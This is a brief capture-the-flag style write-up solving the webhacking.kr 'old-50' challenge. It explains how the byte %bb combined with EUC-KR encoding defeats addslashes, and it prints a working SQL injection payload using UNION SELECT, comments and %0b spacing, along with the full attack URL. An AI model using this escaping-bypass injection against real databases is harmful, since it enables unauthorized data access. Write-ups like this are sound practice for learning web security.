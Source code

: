 ```yaml
---
layout: default
title: old-50
---
```


# Webhacking old-50 Solution

another sql injection.
here we use insert %bb and then, after the addslashes put `\` before the `'`, it'll take the %bb + `\` and encode in `euc-kr` format.

this is the payload i gave:

(notice that i added \**\, because i want that the union will be in the `pw`, because I can't put it inside id)
here we want to insert this: `id=%bb%27%0b/*&pw=*/union%0bselect%0b3%0b--%0b'`

this is the query i used in the http get
```
https://webhacking.kr/challenge/web-25/?id=%bb%27%0b/*&pw=*/union%0bselect%0b3%0b--%0b
```

s